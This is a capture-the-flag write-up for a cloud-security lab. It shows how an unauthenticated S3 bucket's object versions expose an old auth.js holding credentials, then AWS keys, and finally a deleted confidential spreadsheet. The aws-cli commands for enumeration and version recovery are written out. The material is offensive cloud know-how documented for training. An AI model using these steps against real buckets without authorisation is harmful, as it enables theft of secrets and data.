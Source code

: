 ```yaml
---
author: Nithissh S
pubDatetime: 2025-03-05T15:22:00Z
modDatetime: 2025-03-05T07:12:47.400Z
title: Access secrets via s3 bucket versioning
slug: access-secrets-via-s3-bucket-versioning
featured: false
draft: false
tags:
  - CloudSec
  - AWS
  - s3
description:
  In this lab, we will be solving an lab with an attack vector through a s3 bucket versioning feature and through that we can able to exfil the secrets and elevating further more 
---
```


### Scenario

Your team, renowned for its expertise in cloud security, has been enlisted by Huge Logistics to scrutinize their perimeter. Your main task? Investigate a specified IP range, noting that the address 16.171.123.169 is frequently mentioned in their public documentation. Unearth any potential security issues and provide a roadmap to bolster their defenses.

  

### Things provided in the lab 

|     |     |
| --- | --- |
| **Type** | **Value** |
| IP Address | 16.171.123.169<br> |

  

### Solution

With the IP provided in the lab objective `16.171.123.169` and opening it in a new browser, showcases kind of Login page out there and we don’t have any credentials handy in order to login actually 

  

![](../../assets/images/pwnedlabs/s3vers-1.png)  

  

But look into the source of the page, we can see that there is css content being loaded from the following s3 bucket `huge-logistics-dashboard` 

  

![](../../assets/images/pwnedlabs/s3vers-2.png)  

  

And now what we generally do?.. well we will enumerate it right and using `awscli` tool we can enumerate the s3 buckets with the following command: `aws s3 ls s3://<bucket_name> --no-sign-request` and remember utilising `--no-sign-request` meaning we don’t have setup any sort of credentials or anything.. kind of sending an unauthenticated request to a sensitive endpoint 

  

```sh
nits@FWS-CHE-LT-8869 % aws s3 ls s3://huge-logistics-dashboard --no-sign-request
PRE private/
PRE static/
```

  

Ok, we do have two different folders one is `private` and another one is `static` and by the name of it `private` folder we will definitely have something.. but in our case, nothing exists 

  

```sh
nits@FWS-CHE-LT-8869 ~ % aws s3 ls s3://huge-logistics-dashboard/private/ --no-sign-request
2023-08-16 23:55:59          0 
```

  

What happens if there are multiple version of objects exists and objects meaning an s3 bucket with a data.. and there is a concept called S3 bucket versioning.. 

  

You can ask what does it mean, let’s say your intern accidentally deleted a sensitive file from your s3 bucket and how will you recover.. where this comes in.. bucket versioning allows to have different versions of s3 bucket and in case something bad happens.. we can rollout to the previous version and data is restored 

  

We can check whether bucket versioning is enabled with the following command: `aws s3api get-bucket-versioning --bucket {BUCKET_NAME} --no-sign-request`⁠ but in our case, access is denied 

  

```sh
nits@FWS-CHE-LT-8869 ~ % aws s3api get-bucket-versioning --bucket huge-logistics-dashboard  --no-sign-request

An error occurred (AccessDenied) when calling the GetBucketVersioning operation: Access Denied
```

  

But we do have access to return metadata of the s3 bucket versions using

`list-object-versions` and with the following command: `aws s3api list-object-versions --bucket huge-logistics-dashboard --no-sign-request`⁠ where will it show the changes happens in each file with versionId for each changes 

  

![](../../assets/images/pwnedlabs/s3vers-3.png)    

  

Going through the metadata and only metadata that his sensitive where i stumbled upon the changes related to file `static/js/auth.js` 

  

```json
{
            "ETag": "\"c3d04472943ae3d20730c1b81a3194d2\"",
            "Size": 244,
            "StorageClass": "STANDARD",
            "Key": "static/js/auth.js",
            "VersionId": "j2hElDSlveHRMaivuWldk8KSrC.vIONW",
            "IsLatest": true,
            "LastModified": "2023-08-12T20:43:43.000Z",
            "Owner": {
                "ID": "34c9998cfbce44a3b730744a4e1d2db81d242c328614a9147339214165210c56"
            }
}
```

  

Further more, we can run the following command to get more details about the `static/js/auth.js` file

  

```sh
nits@FWS-CHE-LT-8869 ~ % aws s3api list-object-versions --bucket huge-logistics-dashboard --key "static/js/auth.js" --version-id j2hElDSlveHRMaivuWldk8KSrC.vIONW --no-sign-request
{
    "IsTruncated": false,
    "KeyMarker": "static/js/auth.js",
    "VersionIdMarker": "j2hElDSlveHRMaivuWldk8KSrC.vIONW",
    "Versions": [
        {
            "ETag": "\"7b63218cfe1da7f845bfc7ba96c2169f\"",
            "Size": 463,
            "StorageClass": "STANDARD",
            "Key": "static/js/auth.js",
            "VersionId": "qgWpDiIwY05TGdUvTnGJSH49frH_7.yh",
            "IsLatest": false,
            "LastModified": "2023-08-12T19:13:25.000Z",
            "Owner": {
                "ID": "34c9998cfbce44a3b730744a4e1d2db81d242c328614a9147339214165210c56"
        }
```

  

Now we can copy the versionId and replace it inside the parameter called `versionId` through the browser and once after replacing it, we now able to see the older version of the js file which leaks the credential in plain text 

  

![](../../assets/images/pwnedlabs/s3vers-4.png)   

  

With those credentials, we can able to login into some kind of financial dashboard and there is some stats and metrics in the homepage 

  

![](../../assets/images/pwnedlabs/s3vers-5.png)  

  

But in the profile section, we can see that there some added AWS credentials as note over there 

  

![](../../assets/images/pwnedlabs/s3vers-6.png)  

  

After setting up credentials, we can see that this belongs to `data-user` 

  

```sh
nits@FWS-CHE-LT-8869 ~ % aws sts get-caller-identity --profile pwnedlabs-007
{
    "UserId": "AIDATWVWNKAVEJCVKW2CS",
    "Account": "254859366442",
    "Arn": "arn:aws:iam::254859366442:user/data-user"
}
```

  

One another thing, we missed his a particular entry from listing object version is there is an entry called `DeleteMarkers` which means there is file existed inside `/private` directory but it was removed or deleted 

  

```json
"DeleteMarkers": [
        {
            "Owner": {
                "ID": "34c9998cfbce44a3b730744a4e1d2db81d242c328614a9147339214165210c56"
            },
            "Key": "private/Business Health - Board Meeting (Confidential).xlsx",
            "VersionId": "whIGcxw1PmPE1Ch2uUwSWo3D5WbNrPIR",
            "IsLatest": true,
            "LastModified": "2023-08-16T19:12:39.000Z"
        }
    ],
```

  

Now we can redo the same for private folder just like we did for `auth.js` file for gathering the getting versionId of excel file which was deleted 

  

```sh
nits@FWS-CHE-LT-8869 ~ % aws s3api list-object-versions --bucket huge-logistics-dashboard --key "private/Business Health - Board Meeting (Confidential).xlsx" --version-id whIGcxw1PmPE1Ch2uUwSWo3D5WbNrPIR --no-sign-request
{
    "IsTruncated": false,
    "KeyMarker": "private/Business Health - Board Meeting (Confidential).xlsx",
    "VersionIdMarker": "whIGcxw1PmPE1Ch2uUwSWo3D5WbNrPIR",
    "Versions": [
        {
            "ETag": "\"24f3e7a035c28ef1f75d63a93b980770\"",
            "Size": 24119,
            "StorageClass": "STANDARD",
            "Key": "private/Business Health - Board Meeting (Confidential).xlsx",
            "VersionId": "HPnPmnGr_j6Prhg2K9X2Y.OcXxlO1xm8",
            "IsLatest": false,
            "LastModified": "2023-08-16T19:11:03.000Z",
            "Owner": {
                "ID": "34c9998cfbce44a3b730744a4e1d2db81d242c328614a9147339214165210c56"
            }
        }
```

  

Now with the following command we can download the previous version of XLSX file which was deleted 

  

```sh
nits@FWS-CHE-LT-8869 ~ % aws s3api get-object \
    --bucket huge-logistics-dashboard \
    --key "private/Business Health - Board Meeting (Confidential).xlsx" \
    --version-id "HPnPmnGr_j6Prhg2K9X2Y.OcXxlO1xm8" \
    --profile pwnedlabs-007 \
    "Business_Health_Board_Meeting_Confidential.xlsx"
```

  

Now open the XLSX file where we can get our flag content and lab is solved 

  

![](../../assets/images/pwnedlabs/s3vers-7.png)   
